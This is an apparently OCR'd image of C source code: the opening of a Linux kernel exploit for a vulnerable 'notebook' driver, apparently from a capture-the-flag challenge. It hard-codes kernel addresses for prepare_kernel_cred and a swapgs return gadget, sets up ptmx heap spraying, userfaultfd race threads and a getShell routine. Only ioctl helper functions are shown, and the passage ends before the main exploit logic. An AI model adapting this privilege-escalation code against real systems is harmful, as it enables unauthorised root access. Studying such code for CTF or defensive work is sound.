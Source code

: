```c
#define prepare_kernel_cred_BASE 0xFFFFFFFF810A9EF0
#define kernel_BASE 0xFFFFFFFF81000000
#define SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE 0xFFFFFFFF81A00929

int fd = 0;
static char *page = NULL;
static long page_size;
static pthread_t add_thread, edit_thread;
char* mmap_space;
sem_t add_sem, edit_sem;
int ptmx_fds[0x60];
extern size_t user_cs, user_ss, user_rflags, user_sp;

typedef struct notearg{
    size_t idx;
    size_t size;
    void* buf;
}notearg;
typedef struct note{
    char* note;
    size_t size;
}note;

void noteadd(size_t idx, size_t size, void* buf);
void notegift(void* buf);
void notedel(size_t idx);
void noteedit(size_t idx, size_t size, void* buf);
void notewrite(const char* buf, size_t idx);
note* notebook_msg(bool printInfo);

void* noteedit_exp(void* args);
void* noteadd_exp(void* args);

void saveStatus();
void errExit(char* msg);
void registerUserFaultFd(void * addr, unsigned long len, void* (*handler)(void*));
void print_binary(char* buf, int length);
static void* fault_handler_thread(void *arg);
void getShell();

void noteadd(size_t idx, size_t size, void* buf){
    printf("\033[1;34mAdd note #%zu...\n\033[m", idx);
    notearg arg = {idx, size, buf};
    if(size <= 0x60)
        ioctl(fd, ADD_CODE, &arg);
    else{
        printf("\033[1;34mAdding note which has size larger than 0x60, use edit...\n\033[m");
        arg.size = 0x60;
        ioctl(fd, ADD_CODE, &arg);
        arg.size = size;
        noteedit(idx, size, buf);
    }
}
void notegift(void* buf){
    printf("\033[1;32mFetch note information...\n\033[m");
    notearg arg = {0, 0, buf};
    ioctl(fd, GIFT_CODE, &arg);
}
void notedel(size_t idx){
    printf("\033[1;34mDelete note #%zu...\n\033[m", idx);
    notearg arg = {idx, 0, NULL};
    ioctl(fd, DELETE_CODE, &arg);
}
```